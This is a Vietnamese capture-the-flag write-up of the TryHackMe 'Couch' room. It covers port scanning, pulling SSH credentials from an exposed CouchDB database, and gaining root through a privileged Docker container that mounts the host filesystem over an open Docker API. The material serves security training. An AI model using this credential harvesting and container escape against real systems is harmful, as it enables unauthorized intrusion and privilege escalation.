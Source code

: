 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Couch"
date: "2022-03-28"
tags: [
    "tryhackme",
    "web",
    "linux",
	"couchdb",
	"docker",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-28-THM-Couch.webp)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Couch](https://tryhackme.com/room/couch)
## Reconnaissance

Việc đầu tiên cần làm là quét các cổng đang mở trên máy chủ mục tiêu

```python
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 349d390934304b3da71edfeba3b0e5aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMXnGZUnLWqLZb8VQiVH0z85lV+G4KY5l5kKf1fS7YgSnfZ+k3CRjAZPuGceg5RQEUbOMCm+0u4SDyIEbwwAXGv0ORK4/VEIyJlZmtlqeyASwR8ML4yjdGqinqOUZ3jN/ZIg4veJ02nr86GZP+Nto0TZt7beaIxykMEZHTdo0CctdKLIet7PpvwG4F5Tn9MBoys9pUjfpcnwbf91Tv6i56Gipo07jKgb5vP8Nl1TXPjWB93WNW2vWEQ1J4tiyZlBeLOaNaEbxvNQFnKxjVYiiLCbcofwSdrwZ7/+sIy5BdiNW+k81rBN3OqaQNZ8urFaiXXf/ukRr/hhjY5a6m0MHn
|   256 a42eef3a845d211bb9d42613a52ddf19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNTR07g3p8MfnQVnv8uqj8GGDH6VoSRzwRFflMbEf3WspsYyVipg6vtNQMaq5uNGUXF8ubpsnHeJA+T3RilTLXc=
|   256 e16d4dfdc8008e86c2132dc7ad85139c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Với port 5984 tôi có web console của CouchDB. Đọc qua document của db này thì tôi tìm được path của web admin là */_utils* 

Để list ra toàn bộ db trên web browser tôi dùng path */_all_dbs*

Dạo qua các db này thì tôi tìm thấy creds bên trong db *secret*

Thử login ssh 

```python
┌──(neo㉿kali)-[~]
└─$ ssh atena@10.10.60.64    
The authenticity of host '10.10.60.64 (10.10.60.64)' can't be established.
ED25519 key fingerprint is SHA256:QXIT4W/vOthS71YtOAr7s67oloxpMmr0GLRVL9iVFJM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.60.64' (ED25519) to the list of known hosts.
atena@10.10.60.64's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ id
uid=1000(atena) gid=1000(atena) groups=1000(atena),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
atena@ubuntu:~$ ls
user.txt
atena@ubuntu:~$ 
```

## Privilege escalation

Thử `sudo -l` hay `find` đều không có kết quả. Nhưng khi `ls -la` để xem những file ẩn ở thư mục user *atena*, tôi nhận ra file *.bash_history* có size khá lớn. 

```python
atena@ubuntu:~$ cat .bash_history 
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
wget https://gist.githubusercontent.com/rohitrawat/60a04e6ebe4a9ec1203eac3a11d4afc1/raw/fcdfde2ab57e455ba9b37077abf85a81c504a4a9/sources.list
apt-get update
apt-get dist-upgrade 
sudo apt-get install software-properties-common
sudo add-apt-repository ppa:couchdb/stable
sudo apt-get update
sudo apt-get install couchdb
sudo chown -R couchdb:couchdb /usr/bin/couchdb /etc/couchdb /usr/share/couchdb
...
...
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

Ở đoạn cuối này, tôi để ý thấy *root* sử dụng -s để lấy shell và thực thi docker. Tôi sẽ dùng lại câu lệnh này

```python
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpin
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(fl
/ # cat /root/root.txt
cat: can't open '/root/root.txt': No such file or directory
/ # ls /root
/ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root.txt
/ # 	   
```
